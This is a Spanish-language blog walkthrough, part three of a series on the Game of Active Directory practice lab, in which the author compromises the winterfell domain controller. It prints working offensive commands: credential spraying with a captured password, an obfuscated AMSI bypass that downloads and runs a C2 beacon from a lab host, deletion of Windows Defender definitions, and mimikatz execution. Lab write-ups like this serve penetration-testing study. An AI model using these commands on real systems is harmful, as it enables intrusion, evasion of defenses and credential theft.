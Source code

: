 ```yaml
---
layout: single
title: Game of Active Directory - Parte 3
excerpt: "En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local."
date: 2024-04-11
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)

En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local.

En la segunda parte conseguimos varias credenciales, en concreto nos interesa la que obtuvimos con el responder `robb.stark:sexywolfy`.

Vamos a probar esas credenciales en todas las máquinas para ver en cuales nos podemos autenticar.

```bash
nxc smb 192.168.56.10-23 -u robb.stark -p sexywolfy
```

![](/assets/images/Goad/robb.jpg)

Y vemos que tenemos permisos de administrador en el controlador de dominio winterfell. Y además podemos iniciar sesión a través de winrm.

```bash
evil-winrm -u robb.stark -p sexywolfy -i 192.168.56.11
```

![](/assets/images/Goad/robb2.jpg)


Ahora vamos a obtener un beacon de sliver para tener las sesiones de las dos máquinas en el C2.

Desde la sesión que tenemos con evil-winrm ejecutamos el primer comando que utilizamos en la webshell y obtenemos el beacon sin que el defender se entere.

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')
```

![](/assets/images/Goad/robb3.jpg)

![](/assets/images/Goad/robb4.jpg)


Y ya que tenemos permisos de administrador vamos a dejar fuera de la ecuación al defender. Mi método favorito es eliminar sus definiciones, de esta forma seguirá activado pero a efectos prácticos será como si no estuviera.

```bash
execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

![](/assets/images/Goad/av.jpg)


En este punto, teniendo el AV sin definiciones, podríamos ejecutar mimikatz o cualquier cosa que no nos va a detectar.

```bash
sideload /opt/resources/windows/mimikatz/x64/mimikatz.exe "coffee" "exit"
```

![](/assets/images/Goad/mimi.jpg)


Ahora nos basta con ejecutar `getsystem` desde sliver para obtener un nuevo beacon de system. Lo utilizamos y interactuamos con él para recibir la sesión de system en el controlador de dominio.

![](/assets/images/Goad/robb5.jpg)

Ya somos system en el primer controlador de dominio (winterfell.north.sevenkingdoms.local), en la cuarta parte empezaremos a atacar el segundo dominio (essos.local).